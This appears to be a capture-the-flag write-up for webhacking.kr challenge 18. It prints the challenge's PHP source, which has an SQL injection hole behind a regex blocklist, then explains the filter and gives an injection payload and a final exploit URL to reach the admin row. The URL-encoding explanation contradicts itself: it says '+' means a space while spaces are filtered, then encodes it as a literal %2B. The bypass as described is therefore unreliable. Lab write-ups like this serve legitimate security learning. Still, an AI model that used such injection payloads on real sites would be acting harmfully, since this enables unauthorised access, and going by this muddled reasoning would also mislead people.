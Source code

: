 ## Analysis
The initial website is just a plain html with a input field and a hint, that this challenge will be focused onto SQL injection.

![alt text](imgs/image.png)

There is also a link to the source code.
```PHP
<?php
  include "../../config.php";
  if($_GET['view_source']) view_source();
?><html>
<head>
<title>Challenge 18</title>
<style type="text/css">
body { background:black; color:white; font-size:10pt; }
input { background:silver; }
a { color:lightgreen; }
</style>
</head>
<body>
<br><br>
<center><h1>SQL INJECTION</h1>
<form method=get action=index.php>
<table border=0 align=center cellpadding=10 cellspacing=0>
<tr><td><input type=text name=no></td><td><input type=submit></td></tr>
</table>
</form>
<a style=background:gray;color:black;width:100;font-size:9pt;><b>RESULT</b><br>
<?php
if($_GET['no']){
  $db = dbconnect();
  if(preg_match("/ |\/|\(|\)|\||&|select|from|0x/i",$_GET['no'])) exit("no hack");
  $result = mysqli_fetch_array(mysqli_query($db,"select id from chall18 where id='guest' and no=$_GET[no]")); // admin's no = 2

  if($result['id']=="guest") echo "hi guest";
  if($result['id']=="admin"){
    solve(18);
    echo "hi admin!";
  }
}
?>
</a>
<br><br><a href=?view_source=1>view-source</a>
</center>
</body>
</html>
```

The code takes value of `no` from GET request, runs it through regex and in case it does not match, it will send sql query.

### Regex

```php
if(preg_match("/ |\/|\(|\)|\||&|select|from|0x/i", $_GET['no'])) exit("no hack");
```
This line checks if the `no` parameter in the GET request contains any of the following:
- Spaces (` `)
- Forward slashes (`/`)
- Parentheses (`(` or `)`)
- Pipe characters (`|`)
- Ampersands (`&`)
- The keywords `select` or `from` (case-insensitive due to the `i` modifier)
- The string `0x`

If any of these are found, the script exits with the message `"no hack"`.

### SQL Query

The SQL query being executed is:
```php
$result = mysqli_fetch_array(mysqli_query($db, "SELECT id FROM chall18 WHERE id='guest' AND no=$_GET[no]"));
```
- The query selects the `id` from the `chall18` table where:
  - `id` is `'guest'`
  - `no` matches the value of `$_GET['no']`.

The goal is to manipulate the `no` parameter to bypass the filter and retrieve the `admin` user's information (where `no=2`).

## Exploit

We have all the necessary information. We know that the original SQL query is:
```php
SELECT id FROM chall18 WHERE id='guest' AND no=
```

Our goal is to manipulate the query into something like this:
```php
SELECT id FROM chall18 WHERE id='guest' AND no=2 OR id='admin'
```

However, the challenge restricts the use of spaces, brackets, and slashes due to the following filter:
```php
if(preg_match("/ |\/|\(|\)|\||&|select|from|0x/i", $_GET['no'])) exit("no hack");
```

### Bypassing the Filter
To bypass the filter, we can use the following payload:

```php
2+OR+id+LIKE+'admin'
```
The `+` symbol is interpreted as a space in URLs.

### URL Encoding
Since the `+` symbol is interpreted as a space in URLs, we can use URL encoding to ensure the payload is processed correctly. The payload:
```
2+OR+id+LIKE+'admin'
```
becomes:
```
2%2BOR%2Bid%2BLIKE%2B%27admin%27
```
- `%2B` represents the `+` symbol.
- `%27` represents the single quote (`'`).

### Final URL
The final URL with the encoded payload will look like this:
```
https://webhacking.kr/challenge/web-32/index.php?no=2%2BOR%2Bid%2BLIKE%2B%27admin%27
```
